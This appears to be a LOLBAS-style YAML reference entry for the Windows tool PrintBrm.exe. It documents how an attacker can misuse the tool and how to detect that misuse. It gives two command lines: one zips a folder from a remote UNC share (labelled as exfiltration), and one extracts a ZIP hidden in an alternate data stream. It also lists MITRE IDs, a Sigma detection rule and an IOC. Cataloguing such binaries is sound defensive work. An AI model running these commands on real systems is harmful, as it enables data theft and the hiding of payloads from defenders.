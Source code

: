 ```yaml
---
Name: PrintBrm.exe
Description: Printer Migration Command-Line Tool
Author: 'Elliot Killick'
Created: 2021-06-21
Commands:
  - Command: PrintBrm -b -d \\1.2.3.4\share\example_folder -f C:\Users\user\Desktop\new.zip
    Description: Create a ZIP file from a folder in a remote drive
    Usecase: Exfiltrate the contents of a remote folder on a UNC share into a zip file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Type: Compression
  - Command: PrintBrm -r -f C:\Users\user\Desktop\data.txt:hidden.zip -d C:\Users\user\Desktop\new_folder
    Description: Extract the contents of a ZIP file stored in an Alternate Data Stream (ADS) and store it in a folder
    Usecase: Decompress and extract a ZIP file stored on an alternate data stream to a new folder
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Type: Compression
Full_Path:
  - Path: C:\Windows\System32\spool\tools\PrintBrm.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/35a7244c62820fbc5a832e50b1e224ac3a1935da/rules/windows/process_creation/proc_creation_win_lolbin_printbrm.yml
  - IOC: PrintBrm.exe should not be run on a normal workstation
Resources:
  - Link: https://twitter.com/elliotkillick/status/1404117015447670800
Acknowledgement:
  - Person: Elliot Killick
    Handle: '@elliotkillick'
---
```

